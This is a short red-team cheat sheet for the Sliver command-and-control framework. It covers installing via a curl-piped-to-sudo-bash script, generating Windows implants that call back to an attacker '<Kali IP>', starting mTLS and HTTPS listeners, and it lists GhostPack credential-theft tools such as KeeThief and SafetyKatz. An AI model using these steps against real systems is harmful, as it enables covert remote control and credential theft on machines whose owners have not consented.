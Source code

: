 ## Sliver

Sliver is a cross-platform implant framework that supports C2 over Mutual-TLS, HTTP(S), and DNS. Implants are dynamically compiled with unique X.509 certificates signed by a per-instance certificate authority generated when you first run the binary. Implants support features such as dynamic code generation, compile-time obfuscation, process injection, anti-forensics, Windows process migration and Windows user token manipulation.

Reference: https://sliver.sh/docs?name=Getting+Started

### Initial Install
    $ apt-get install mingw-w64 binutils-mingw-w64 g++-mingw-w64
    $ git clone https://github.com/BishopFox/sliver.git
    $ sudo curl https://sliver.sh/install|sudo bash

Requires two dependences: MinGW and Metasploit.

### Usage
    $ sliver-server
    > armory  (will install all packages)
    > armory install [specify package]
    > armory update

Reference: [sliverarmory repositories · GitHub](https://github.com/orgs/sliverarmory/repositories)

### Generate Implants (Binary) 
    > generate --mtls <Kali IP> --save /opt/engagement --skip-symbols --os win
    > slivers (to see binary slivers created>

### Start mtls Listener
    > mtls 
    > jobs (will list the listeners created) use 3

### Start HTTPS Listener
    > https –website https://<IPaddress>
    > jobs (will list the listeners created) 

### Interact with Sessions
    > use 1 (session # created)

#### SLiver Implants
    https://github.com/GhostPack/SharpDPAPI.git
    https://github.com/GhostPack/SharpWMI.git
    https://github.com/GhostPack/KeeThief.git
    https://github.com/GhostPack/SharpUp.git
    https://github.com/GhostPack/SafetyKatz.git
    https://github.com/GhostPack/SharpDump.git
    https://github.com/GhostPack/SharpRoast.git
